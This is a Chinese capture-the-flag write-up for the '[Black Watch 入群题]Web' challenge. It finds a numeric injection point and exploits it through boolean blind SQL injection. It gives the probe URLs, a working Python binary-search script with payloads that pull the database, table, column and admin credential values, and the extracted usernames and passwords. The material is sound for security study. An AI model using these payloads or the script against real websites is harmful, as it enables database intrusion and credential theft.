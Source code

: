 # \[Black Watch 入群题]Web

## \[Black Watch 入群题]Web

## 考点

* 注入点寻找与判断

## wp

![](.gitbook/assets/image\_kbvyQHwi5MfQyJEr29UMnf.png)

一开始并没有什么发现，后来F12找请求包时，发现请求热点内容的URL

![](.gitbook/assets/image\_5UkYbvqTSPV95Zpy7qiycM.png)

分别访问如下地址，只有`id=2/2`可以访问，其他均返回`hack`，初步判断数值型注入

```
backend/content_detail.php?id=2-2
backend/content_detail.php?id=2%2b2
backend/content_detail.php?id=2*2
backend/content_detail.php?id=2/2
```

访问`id=0`返回的是空白页面，可以发现如果被过滤返回hack，没有过滤但执行无结果返回空白。

访问`id=0^1`返回id为1的内容，基本确定是布尔盲注

脚本如下（和\[WUSTCTF2020]颜值成绩查询一样的），得到数据库名为news，表名admin,contents，admin表的字段为id,username,password,is\_enable

```python
import requests

url = 'http://26d24c17-5d64-4249-881d-af4ff63d3b12.node4.buuoj.cn:81/backend/content_detail.php?id=' 

def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f"0^(ascii(substr((select(database())),{i},1))>{mid})"
            # payload = f"0^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='news')),{i},1))>{mid})"
            # payload = f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='admin')),{i},1))>{mid})"
            # f"0^(ascii(substr((select(group_concat(username))from(admin)),{i},1))>{mid})"
            # f"0^(ascii(substr((select(group_concat(password))from(admin)),{i},1))>{mid})"
            url_t = url + payload
            r = requests.get(url=url_t)
            
            if len(r.text)==2:
                high = mid
            if 'content' in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
get_database()
```

跑出来结果，第二个是对的

```
username: 66e8e3bb,b7626496
password: b9974657,54938daf
```

## 小结

1. F12或者抓包看请求的过程
